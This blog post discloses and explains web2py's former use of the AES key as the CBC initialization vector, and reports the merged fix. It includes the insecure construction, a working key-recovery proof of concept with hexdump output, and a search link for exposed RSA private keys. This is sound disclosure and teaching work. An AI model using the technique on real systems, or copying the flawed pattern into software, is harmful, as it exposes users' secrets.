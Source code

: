 author: Marcin
disqus_id: 744897b1-f365-4776-9625-02c9f5a03ef8
disqus_url: http://www.tssci-security.com/archives/2013/02/21/web2py-key-as-initialization-vector/
parent: 0
post_id: 472
post_type: post
pub_date: 2013-02-21 11:00:00
public: 'yes'
slug: web2py-key-as-initialization-vector
tags:
- security
template: post.html
title: 'web2py: Key as Initialization Vector'

web2py: Key as Initialization Vector
####################################

It's not uncommon for developers to accidentally (or purposefully) commit
passwords or other information supposed to remain secret into revision
control. It's also not uncommon to see `RSA private keys indexed by Google`_,
and GitHub made it even easier to find `secrets in the code`_ with their new
search features. These same search features make it easy to grep the web
for all kinds of insecure code patterns, especially insecure cryptographic
constructions. For example, a simple search for ``AES.new(`` in Python code
repositories revealed to me the web2py_ project was using the `encryption key
as the initialization vector (IV)`_, which is the focus of this blog post.

Why is this bad? Well, in an email to the `sci.crypt mailing list`_ back
in 1996, David Wagner explains why you should never do this.

Let's take a look at the insecure construction in web2py's ``gluon.utils``
module prior to merging my pull request that fixed this issue.

.. sourcecode:: python

    from Crypto.Cipher import AES

    #..snip..

    AES_new = lambda key: AES.new(key, AES.MODE_CBC, IV=key[:16])

From an attacker's perspective (in short), if we can control the ciphertext
being fed to this function, and see the output of this function (the decrypted)
text, we can easily deduce the key used to perform the encryption. The
following code demonstrates this:

.. sourcecode:: python

    KEY = 'testtesttesttest'
    PTEXT = 'The quick brown fox jumped over the lazy dog.The quick brown fox'


    def xor(a, b):
      return bytearray(x ^ y for x, y in zip(a, b))


    def exploit():
      # ciphertext produced by web2py
      ctext = bytearray(AES_new(KEY).encrypt(PTEXT))

      # our (malformed) ciphertext we plan to feed to web2py
      mtext = ctext[:16] * 4
      mtext[16:32] = [0x0] * 16

      # if at any point we identify what the decrypted data is
      ptext = bytearray(AES_new(KEY).decrypt(str(mtext)))

      # we can easily recover the secret key used:
      print('KEY: %r' % (str(xor(ptext[:16], ptext[32:48])), ))

Running this exploit returns the following (I've included hexdumps at each
step of the way)::

    >>> exploit()
    ctext: b9561dc60a622f09f8cb49f47a30719a19ef66aa2ea6f7772a15e81b722830fbea38af2c1fdbbf6340e9707592aadfd4ce57b982597eb1e93cc311f25ea73b5d

    0x00: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x10: 19 ef 66 aa 2e a6 f7 77 2a 15 e8 1b 72 28 30 fb ..f....w....r.0.
    0x20: ea 38 af 2c 1f db bf 63 40 e9 70 75 92 aa df d4 .8.....c..pu....
    0x30: ce 57 b9 82 59 7e b1 e9 3c c3 11 f2 5e a7 3b 5d .W..Y...........

    mtext: b9561dc60a622f09f8cb49f47a30719a00000000000000000000000000000000b9561dc60a622f09f8cb49f47a30719ab9561dc60a622f09f8cb49f47a30719a

    0x00: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
    0x20: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x30: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.

    ptext: 54686520717569636b2062726f776e20520b27652be2f4a1c978b57c0967a34c200d165405101a171f4511061b121d54995b0b920f72351ee78e58f261226cce

    0x00: 54 68 65 20 71 75 69 63 6b 20 62 72 6f 77 6e 20 The.quick.brown.
    0x10: 52 0b 27 65 2b e2 f4 a1 c9 78 b5 7c 09 67 a3 4c R..e.....x...g.L
    0x20: 20 0d 16 54 05 10 1a 17 1f 45 11 06 1b 12 1d 54 ...T.....E.....T
    0x30: 99 5b 0b 92 0f 72 35 1e e7 8e 58 f2 61 22 6c ce .....r5...X.a.l.

    KEY: testtesttesttest


Is web2py vulnerable?
~~~~~~~~~~~~~~~~~~~~~

In short, no. The manner in which ``AES_new`` was used across web2py's
codebase did not appear to be exploitable. web2py was using this to encrypt
pickled session data in a cookie in ``secure_dumps``, and authenticated with
an HMAC (which coincidentally was also vulnerable to a `timing attack`_).
However, applications that use ``AES_new`` as a convenience function for
decrypting data provided by the user are most likely vulnerable, amongst
other vulnerabilities that tend to crop up when rolling your own crypto.

If you've been keeping up with web2py's master, my `merged pull request`_
patches the ``AES_new`` function to return a random IV anytime it is invoked
and utilizes the more secure, constant-time ``compare`` function to validate
HMAC's.

.. _RSA private keys indexed by Google: https://www.google.com/search?q=intext:%22-----BEGIN+RSA+PRIVATE+KEY-----%22+filetype%3Apem
.. _secrets in the code: https://github.com/blog/1390-secrets-in-the-code
.. _web2py: https://github.com/web2py/web2py
.. _encryption key as the initialization vector (IV): https://github.com/web2py/web2py/pull/58
.. _sci.crypt mailing list: http://www.gnu.org/software/shishi/manual/html_node/Key-as-initialization-vector.html
.. _timing attack: http://codahale.com/a-lesson-in-timing-attacks/
.. _merged pull request: https://github.com/web2py/web2py/pull/58

